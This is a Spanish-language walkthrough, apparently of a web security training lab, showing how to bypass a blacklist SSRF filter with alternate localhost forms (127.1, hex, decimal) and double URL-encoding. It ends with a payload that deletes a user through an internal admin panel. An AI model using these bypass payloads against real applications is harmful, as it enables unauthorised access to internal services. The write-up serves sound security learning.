 
En esta clase continuamos con la explotación de SSRF, centrándonos en cómo evadir defensas basadas en listas negras. La aplicación impide directamente ciertas direcciones como 127.0.0.1 y rutas sensibles como /admin, pero estas restricciones son débiles.

Utilizamos técnicas de evasión como redirecciones a direcciones IP alternativas (por ejemplo, 127.1) y codificación doble de caracteres (%2561 en lugar de a) para engañar al filtro. Gracias a esto conseguimos acceder al panel de administración interno y eliminar al usuario carlos, demostrando que los controles basados únicamente en listas negras no son una protección fiable contra SSRF.

-----

1. Debemos de Bypassear al intentar poner la URL de la pagina
2. Nos vamos al apartado de check stock
3. Podemos poner lo siguiente

http://localhost/
http://127.0.0.1/
http://127.12.3.12/ -> Podemos poner el valor que sea en los 3 ultima octetos de la IP y será lo mismo
http://127.0.1/ -> sigue haciendo lo mismo al localhost
http://127.1/ -> sigue haciendo lo mismo al localhost

Decimal to Hexadecimal

Y convertimos los valores de decimal a hexadecimal para representar los valores de localhost 127.0.0.1

Entonces podemos hacer lo sigueinte

ping -c 1 0x7f000001

http://0x7f000001/
http://0x7f000002/
http://0x7f000003/

Tambien  podemos pasar el valor de la IP a Decimal, para ellos hacemos lo siguiente:

127.0.0.1

    1->1*256^0
    0->0*256^1 = 0
    0->0*256^2 = 0
    127->127*256^3

Entonces lo podemos hacer con Linux:

    echo "1->1*256^0 + 127*256^3" | bc
    >2130706433
    
Entonces podemos hacer la consulta hacia esto:

http://2130706433/ -> y es lo mismo que hacerlo a Localhost (127.0.0.1)

Ahora vemos que la cadena "admin" tambien está siendo bloqueada, entonces podemos representar la letra "a" en doble URL, urlencodeamos el % 2 veces

%61 -> a
%2561 -> a

Entonces probamos la consultar:

http://127.1/%2561dmin

Y podemos ver el panela de administracion y eliminamos a carlos

http://127.1/%2561dmin/delete?username=carlos


